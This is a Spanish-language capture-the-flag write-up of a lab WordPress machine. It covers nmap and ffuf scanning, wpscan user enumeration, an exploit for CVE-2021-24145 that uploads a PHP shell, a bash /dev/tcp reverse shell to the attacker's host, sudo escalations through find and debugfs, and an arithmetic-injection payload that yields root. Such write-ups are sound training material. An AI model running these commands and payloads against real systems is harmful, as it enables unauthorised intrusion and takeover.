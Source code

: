 Fecha: 02/09/2024
Comienzo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.18.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240902202029.png)

Por lo que veo hay un servidor apache, así que hago fuzzing para buscar posibles urls:
```
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.18.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](imágenes/Pasted%20image%2020240902202710.png)

Encuentro el panel de login: wp-login.php. Uso la herramienta **wpscan** para enumerar usuarios, encontrando `erik` y `developer` 

```
wpscan --url http://172.18.0.2 --enumerate u
```

![](imágenes/Pasted%20image%2020240902203407.png)

Además, podemos ver que hay un directorio backups, al que accedo: 

![](imágenes/Pasted%20image%2020240902203854.png)

Descomprimo este directorio. Al leer el archivo que hay dentro, encuentro lo siguiente: 

![](imágenes/Pasted%20image%2020240902204206.png)

Pruebo ese usuario y contraseña en el panel de login y entro como administrador. Voy a los plugins y veo que hay uno desactualizado: Modern Events Calendar Lite (versión 5.16.2). Busco y al parecer hay una vulnerabilidad, y un exploit para la misma en en [github](https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/README.md).

![](imágenes/Pasted%20image%2020240902204756.png)

Uso el script de python y consigo una shell en http://172.18.0.2:80//wp-content/uploads/shell.php:
```
python3 exploit.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Haciendo sudo -l encuentro lo siguiente que puedo usar `find` como "rafa": 

![](imágenes/Pasted%20image%2020240902205302.png)

Utilizo https://www.revshells.com/ para crear una reverse shell y trabajar más cómodamente: 
- En la shell virtual haré `bash -c 'bash -i >& /dev/tcp/172.18.0.1/9001 0>&1'`
- En mi máquina atacante haré `nc -lvnp 9001`
En https://gtfobins.github.io/gtfobins/find/#sudo encuentro:
```
sudo -u rafa find . -exec /bin/sh \; -quit
```

Como "rafa", puedo usar `debugfs` como "ruben":
![](imágenes/Pasted%20image%2020240902211145.png)

Usando lo encontrado en https://gtfobins.github.io/gtfobins/debugfs/#sudo:
```
sudo -u ruben debugfs
!/bin/sh
```

Y, finalmente, como "ruben":
![](imágenes/Pasted%20image%2020240902211401.png)

Podremos ejecutar /opt/penguin.sh como root, cuyo contenido es: 
![](imágenes/Pasted%20image%2020240902211749.png)

Como no encontré qué hacer a partir de aquí, busqué en writeups, encontrando https://github.com/haw441kings/DockerLabsWriteUps/blob/main/Faciles/Whoiam.md. En el mismo, explica que usando lo siguiente como respuesta estaremos inyectando una shell y al ejecutarlo como administrador seremos root: 

```
sudo -u root /opt/penguin.sh
a[$(/bin/bash>&2)]+42
```

![](imágenes/Pasted%20image%2020240902212443.png)

Analizando a posteriori, me di cuenta que el "+42" lo único que hace es que al salir del bash la salida sea "Correct" en vez de Wrong.

#TODO analizar como funciona la inyección. 